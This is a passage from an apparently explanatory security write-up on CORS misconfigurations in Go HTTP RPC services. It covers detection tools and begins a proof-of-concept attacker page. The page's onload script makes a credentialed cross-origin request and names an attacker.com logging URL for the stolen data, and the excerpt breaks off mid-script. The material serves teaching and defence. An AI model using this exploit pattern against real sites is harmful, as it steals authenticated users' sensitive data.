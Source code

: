 **3. Automated Tools:**

- **Specialized CORS Scanners:** Utilize tools specifically designed to detect CORS misconfigurations. Examples include:
    - **CORSER:** A Golang CLI application for advanced CORS misconfiguration detection.
    - **CorsOne:** A Python-based tool for discovering CORS misconfigurations.
- **Static Analysis Security Testing (SAST):** Integrate SAST tools into the development pipeline. Some SAST tools have specific queries or rules to detect common CORS misconfiguration patterns in Golang code.
    - **CodeQL:** GitHub's CodeQL offers a query `go/cors-misconfiguration` (experimental) that identifies scenarios where `Access-Control-Allow-Origin` is set to `null` or reflects request data (like the `Origin` header) while `Access-Control-Allow-Credentials` is also true. This query is particularly effective at finding high-risk patterns.
    - Other SAST tools like Snyk or Sonatype Lifecycle may also identify vulnerabilities in dependencies or certain insecure coding patterns related to CORS.
- **Dynamic Application Security Testing (DAST):** Some DAST tools can perform basic checks for overly permissive CORS policies during automated scanning.

Effective detection combines these methods. Static analysis can pinpoint potentially vulnerable code patterns, while dynamic testing is crucial for confirming the actual runtime behavior of the server in response to various cross-origin requests. The "null" origin is a particularly subtle but important test case, as attackers can often force this origin using sandboxed iframes.

## **10. Proof of Concept (PoC)**

This Proof of Concept demonstrates how an attacker can exploit a CORS misconfiguration in a Golang HTTP RPC interface to leak sensitive data.

**Scenario:**

- A vulnerable Golang application is running at `http://vulnerable-go-app.com`.
- It exposes an HTTP RPC endpoint: `http://vulnerable-go-app.com/api/getsensitivedata`.
- This endpoint is misconfigured to:
    1. Reflect any value provided in the `Origin` request header into the `Access-Control-Allow-Origin` response header.
    2. Set `Access-Control-Allow-Credentials: true` in its responses.
- The victim is authenticated to `http://vulnerable-go-app.com` (e.g., has a valid session cookie).
- The attacker hosts a malicious webpage on `https://attacker.com/poc.html`.

**Attacker's Malicious HTML Page (`https://attacker.com/poc.html`):**

```HTML

<!DOCTYPE **html**>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CORS PoC for Golang HTTP RPC</title>
    <script>
        // This function will be called automatically when the page loads.
        window.onload = function() {
            exploitCors();
        };

        function exploitCors() {
            const xhr = new XMLHttpRequest();
            // The target vulnerable Golang HTTP RPC endpoint
            const vulnerableUrl = 'http://vulnerable-go-app.com/api/getsensitivedata';
            // The attacker's server endpoint to receive the leaked data
            const attackerLogUrl = 'https://attacker.com/log_data';

            document.getElementById('status').textContent = 'Attempting to fetch data...';

            xhr.open('GET', vulnerableUrl, true);
            // Crucial: This tells the browser to include credentials (e.g., cookies)
            // associated with vulnerable-go-app.com in the cross-origin request.
```